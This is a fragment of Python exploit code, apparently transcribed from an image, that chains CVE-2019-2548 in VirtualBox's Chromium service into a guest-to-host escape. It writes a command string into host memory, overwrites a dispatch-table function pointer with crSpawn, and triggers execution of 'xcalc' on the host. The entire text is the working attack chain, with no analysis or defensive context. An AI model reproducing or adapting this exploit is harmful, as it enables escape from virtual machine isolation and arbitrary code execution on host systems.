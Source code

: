 ```python
    
    # Trigger to CVE-2019-2548
    msg = make_readpixels_msg(0xdeadbeef, 0xffffffff)
    crmsg(client, msg)
    #a = input("test1 : ")
   
    # setting "xcalc"
    xcalc_string = cr_server + 0xc410 
    write_anywhere(xcalc_string, "xcalc")
    print("[+] setting execute string ['xcalc'] : " + hex(xcalc_string))

    # overwrite talbe func crSpawn
    print("[+] overwriting crServerDispatchBoundsInfoCR to crSpawn")
    write_anywhere(crServerDispatchBoundsInfoCR, pack("<Q", crSpawn))

    # escape!! execute xcalc
    msg = make_crSpawn_msg("xcalc", xcalc_string)
    crmsg(client, msg)

    hgcm_disconnect(client) 

```

